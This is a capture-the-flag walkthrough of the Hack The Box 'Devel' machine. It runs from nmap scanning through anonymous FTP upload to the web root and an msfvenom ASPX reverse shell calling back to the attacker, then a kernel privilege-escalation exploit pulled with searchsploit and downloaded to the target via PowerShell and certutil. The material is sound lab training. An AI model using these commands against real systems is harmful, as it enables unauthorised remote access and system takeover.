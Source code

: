 # Devel

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled.png)

# Reconnaissance

### Running Quick initial Nmap Scan

```ruby
sudo nmap -sC -sV -O -oN nmap/initial 10.10.10.5
```

> **-sC** : Scan with nmap’s default script
**-sV** : Service detection
**-O** : OS detection
> 

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%201.png)

### Running the full scan

To make sure we’ve covered all the ports.

```python
sudo nmap -sC -sV -O -p- -oN nmap/full 10.10.10.5
```

- -p- : scan all the ports

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%202.png)

We’ve got the same Result

### Running udp scan

```python
sudo nmap -sU -O -oN nmap/udp 10.10.10.5
```

- -sU : udp scan

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%203.png)

Nothing found.

## Attack vectors

- [ ]  21 - ftp — anonymous login allowed
- [ ]  80 - running http server.

# Enumeration

Let’s have a peak in port 80, which is default webpage

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%204.png)

Now have look in ftp. As it allowed anonymous login we can easily log in by these default creds

```python
user : anonymous
pass :
```

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%205.png)

If you try accessing these file from web you can do that. May be the FTP server is in the same root as the HTTP server. lets test it, 

- upload a file via ftp
- access that file in the web

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%206.png)

FTP commands:

> - **put filename** : will upload local file to target ftp server
- ls : show the directory
> 

Accessing the file in web.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%207.png)

we can access. So we also can execute arbitrary payload by uploading via ftp.

# Gaining Foothold

**Making a reverse shell via msfvenom**

```python

msfvenom -p windows/reverse_tcp LHOST=10.10.16.70 LPORT=9999 -f aspx -o payload.aspx
```

- **-p** : payload type.
- **-LHOST** : my local host where the server will contact
- **-LPORT** : the port on which it will connect
- **-f** : payload type. as our target server is windows we used `aspx` extension
- **-o** : output location and file name

Uploading the `payload.aspx`

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%208.png)

Starting a listener on port 9999

```python
nc -lnvp 9999
```

Executing the payload by accessing that file in the web

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%209.png)

And we get the shell.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2010.png)

Okay, First thing first lets try to access the user flag . 

`cd c:\users` 

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2011.png)

Trying to access `babis` 

`cd babis`

permission denied  …

Administrator is also the same

Let's have basic enumeration throughout the machine.

`systeminfo` :

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2012.png)

- It's windows 7 enterprise
- Build 7600 ( quite old , should have vulnerabilities)
- Its running on `32 bit`
- And no `hotfix` available.

**Turning on Hackers Mind:**

So let's search for exploit

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2013.png)

And yeah it has an exploit. Let's follow the first link. It's a kernel exploit .

It's exploit db. To copy the exploit we just need the `EBD-ID` 

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2014.png)

It has instructions too , it will be a great help.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2015.png)

Before doing that you should update your local searchsploit database

`searchsploit -u`

Search for the payload using searchsploit

`searchsploit 40564`

Copying/mirroring the payload in current folder

`searchsploit -m 40564`

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2016.png)

Now, read the payloads and its usage.

According to the instructions we need to compile the payload first according to the machine we are attacking. 

We are attacking the `32 bit` machine.

To download the compiler use the following commnd

```python
sudo apt-get install gcc-mingw-w64
```

Now compile the payload `40564.c` to `exploit.exe` by using following command.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2017.png)

## Payload delivery

First Run an http server in our attacker machine. Which will create a server and will make our current directory accessible from internet. And our current directory will contain the payload.

```python
python3 -m http.server 1337
```

- 1337 is our port in which our server is running.

Now find our local ip.

```python
ipconfig 
```

`tun0` should be our local ip

***Process 1: via powershell***

```python
powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://10.10.16.70:1337/exploit.exe](http://10.10.16.70:1337/exploit.exe)', 'c:\Users\Public\Downloads\exploit.exe')"
```

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2018.png)

or

***Process 2: Via `certutil`. It's the most convenient way***

```python
certutil.exe -urlcache -split -f http://10.10.16.70:1337/exploit.exe
```

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2019.png)

Sending payload to the victim machine is successful.

Now negative to that specific folder where the payload is uploaded. And simply run the exploit.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2020.png)

And that's it. We Became `root` .

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2021.png)

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2022.png)

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2023.png)

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2024.png)
